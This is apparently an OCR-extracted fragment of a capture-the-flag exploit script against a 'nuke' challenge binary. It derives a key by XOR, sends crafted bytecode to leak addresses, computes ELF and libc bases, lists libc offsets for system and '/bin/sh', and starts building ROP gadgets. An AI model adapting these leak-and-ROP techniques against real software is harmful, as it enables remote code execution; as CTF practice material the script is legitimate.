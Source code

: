     attempting seed 243961812
    f2:cc:c2:65:8f:31:ac:15:42:53:ec:27:85:84:26:7d:
    75:b8:86:45:81:04:80:2e:d1:6d:f2:60:30:9d:f7:30:
    f0:be:a7:05:74:c6:aa:77:98:87:04:75:66:39:d3:60:
    0c:64:e6:49:30:54:a4:07:3a:58:76:08:1e:da:b4:0e:
    [...]
    $ python -c 'print hex(0x0c64e6493054a4073a5876081edab40e^0x42f20112e2c58a36c97b3960367e1c99)'
    0x4e96e75bd2912e31f3234f6828a4a897L
    '''
    key2_r = "4e96e75bd2912e31f3234f6828a4a897"
    key2(16,key2_r,"KING CROWELL"+"\x00")
    log.success("key 2 unlocked!")

    ## ARM NUKE ##
    # 0xcac380cd^0xbadc0ded^0xacc3d489 = 0xdcdc59a9
    # 0xa959dcdc^0x00454e44 = 0xa91c9298
    # 0xa91c9298^0x444f4f4d = 0xed53ddd5

    #0x52 = reprogram nuke
    #0x53 = write to target
    #0x49 = target++;
    #0x4f = print target
    #0x44 = Disarm or Detonate
    #0x45 = END
    nuke_code  = "49494949"*32 #"DOOM"
    nuke_code += "4f494f49" #leak, set *target to 41, #increment target
    nuke_code += "4f494f49"
    nuke_code += "52414141"
    nuke_code += "fb5dd3d9"
    nuke_code += "\x00"*(0x1fc-144)

    log.info("programming nuke...")
    arm_nuke(nuke_code)
    log.success("nuke armed!")

    log.info("launching nuke...")
    launch_nuke() # use first char of nuke_code -0x44 as switch select

    elf_base = leak_elf() # returns 0xf7744000
    #libc_base = elf_base-0x1ff000 # 0xf7505000 #local
    libc_base = elf_base-0x1e2000 # 0xf7505000 #remote
    
    # target = nuke+0x208
    target = chunk_leak+0x490
    
    '''
    $ ./dump libc6_2.19-0ubuntu6.6_i386
    offset___libc_start_main_ret = 0x19a83
    offset_system = 0x00040190
    offset_dup2 = 0x000db590
    offset_read = 0x000dabd0
    offset_write = 0x000dac50
    offset_str_bin_sh = 0x160a24
    '''

    ## GADGETS ##
    stack_pivot = elf_base+0x2cd4       # mov esp, edx ; ret
    #pop_ecx_ebx = libc_base+0xf9482     # pop ecx ; pop ebx ; ret #local
    pop_ecx_ebx = libc_base+0xf9152    # pop ecx ; pop ebx ; ret # remote